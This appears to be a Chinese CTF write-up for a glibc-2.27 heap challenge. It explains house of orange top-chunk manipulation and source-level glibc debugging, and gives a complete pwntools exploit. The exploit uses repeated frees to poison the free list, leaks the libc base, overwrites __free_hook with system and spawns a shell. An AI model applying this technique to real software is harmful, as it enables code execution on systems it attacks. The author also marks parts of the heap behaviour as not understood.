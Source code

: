 # 知识点
- fastbin attack
- "fake" house of orange

# 收获
- gdb 源码级调试glibc
- house of orange 基本原理
## gdb 源码级调试
下载所需版本的glibc源码
```shell
sudo apt-get install libc6-dbg
sudo apt-get install glibc-source
cd /usr/src/glibc
sudo tar xvf glibc-x.xx.tar.xz
```
在gdb中使用:
```shell
dir /usr/src/glibc/glibc-x.xx/malloc
```
即可开始调试。
## house of orange 基本原理及在本题中的应用
house of orange简单来说就是利用溢出或者任意地址写的前置漏洞来修改topchunk的size字段，将其改小，从而可以通过若干次malloc来竭尽topchunk的空间，迫使ptmalloc将不足以满足用户需求的topchunk free到unsorted bin中。
这里之所以要改小topchunk的size而不是直接malloc一个超大的块，是因为如果申请的堆块大小超过了128k，ptmalloc就会调用mmap来申请内存，而不是brk，这样就不能影响到topchunk了。
修改topchunk的size有四个限制：
1.	伪造的 size 必须要对齐到内存页

2.	size 要大于 MIN_CHUNK_SIZE(0x10)

3.	size 要小于之后申请的 chunk size + MIN_CHUNK_SIZE(0x10)

4.	size 的 prev inuse 位必须为 1

这样的手法主要用于
- 不能调用free函数的情况（它能够触发free(topchunk)）；
- 不能通过常规方式泄露libc地址的情况（如本题）。

本题的关键难点在于如何泄露libc地址。由于题目限制，无法通过malloc和free将堆块放到unsorted bin这样的双向链表中。
通过上述的house of orange 似乎可以方便地泄露libc地址，但是实验发现topchunk在枯竭之后，似乎并没有被放到任何一个bin中，就被新的topchunk取代了....目前不知道是什么情况。
![image.png](0) ![image.png](1)
通过学习和调试，了解了glibc-2.27在topchunk大小无法满足用户申请的内存大小后：
1. 先调用`malloc_consolidate`,将内存中相邻的、已经被free的堆块都合并，放在unsorted bin中；
2. 判断unsored bin 中的块是否符合用户需求，如不符合，将该块放入对应大小的bin中，（本题中是small bin，符合unsorted bin 的逻辑)
3. topchunk此时的大小还是不足，但是可能是由于smallbin里面有没被使用的内存块，且大小足够大，因此ptmalloc没有调用sysmalloc从系统申请新的topchunk，而是从smallbin里取出那块内存进行分割，剩余部分存放在unsorted bin，并且在last_remainder中也有地址记录。
4. 上一步中存放在unsorted bin中的块在本题中可以被利用来泄露libc地址。
# exp
```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "debug"
io = process("./pwn")#,env={"LD_PRELOAD":"./libc.so.6"}
def add(idx,size,content):
    io.sendline("1")
    io.recvuntil("index\n")
    io.sendline(str(idx))
    io.recvuntil("size\n")
    io.sendline(str(size))
    io.recvuntil("something\n")
    io.sendline(content)
    io.recvuntil("gift :")
    heap_addr = io.recvline()
    return heap_addr
def remove(idx):
    io.sendline("2")
    io.recvuntil("index")
    io.sendline(str(idx))

heap_addr = int(add(0,0x50,"/bin/sh\x00"),16)
add(1, 0x48, 'aaa\x80bbb')

top_addr = heap_addr + 160

remove(0)
remove(0)
remove(0)
add(2, 0x50, p64(top_addr)*2)
add(3, 0x50, p64(top_addr)*2)
add(4, 0x50, p64(0xf1)*2)

for i in range(8):
    remove(1)
for i in range(8):
    remove(0)

add(5, 0x78, 'aaa\x80bbb')
gdb.attach(io)
add(6, 0x78, 'aaa\x80bbb')
add(7,0x48,'emmm')

libc_base = int(add(8,0x48,p64(top_addr)*2),16)- 4111520
#libc_base = int(add(8,0x48,"123456"),16)- 4111520 #???????? this add modify top chunk addr ??
libc = ELF("./mlibc")
system_addr = libc_base + libc.symbols["system"]
free_hook = libc_base + libc.symbols["__free_hook"]
print("[+]system addr:0x%x"%system_addr)
print("[+]free_hook addr:0x%x"%free_hook)

remove(0)
remove(0)
remove(0)

add(9,0x50,p64(free_hook)*2)
add(10,0x50,p64(free_hook)*2)
add(11,0x50,p64(system_addr))
add(12,0x30,"/bin/sh\x00")
remove(12)
io.interactive()

```

# 待解决
1. 为什么`libc_base = int(add(8,0x48,"12345"),16)- 4111520`会修改topchunk的指针？